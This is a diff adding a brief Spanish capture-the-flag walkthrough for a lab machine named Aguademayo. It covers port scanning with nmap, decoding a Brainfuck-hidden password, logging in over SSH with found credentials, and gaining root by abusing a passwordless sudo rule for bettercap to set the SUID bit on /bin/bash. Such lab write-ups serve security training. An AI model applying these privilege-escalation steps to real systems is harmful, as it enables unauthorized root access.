

aguademayo

Changed region(s): [[0.0, 0.0, 0.9978, 0.9545], [0.9978, 0.6653, 1.0, 1.0]]

diff --git a/aguademayo.md b/aguademayo.md
@@ -1,0 +1,51 @@
+### Maquina Aguademayo
+
+## Puerto abiertos 
+
+sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2
+
+22/tcp open  ssh     syn-ack ttl 64
+80/tcp open  http    syn-ack ttl 64
+
+## Servicios y versiones
+
+sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 172.17.0.2
+
+![alt text](image.png)
+
+
+
+## Entramos en la web 
+
+y encontramos el siguiente codigo:
+
+
+++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
+
+
+usamos la herramienta en linea para desecncriptar
+
+https://www.dcode.fr/brainfuck-language
+
+bebeaguaqueessano
+
+## Intrusion
+
+nos conectamos por ssh con las credenciales agua y bebeaguaqueessano
+
+![alt text](image-1.png)
+
+## Escalar privilegios
+
+sudo -l
+
+(root) NOPASSWD: /usr/bin/bettercap
+
+ejecutamos bettercap
+sudo /usr/bin/bettercap
+
+! chmod +s /bin/bash
+
+Salimos de bettercap, luego, hacemos un /bin/bash -p y ya seremos usuarios root !!!
+
+![alt text](image-2.png)
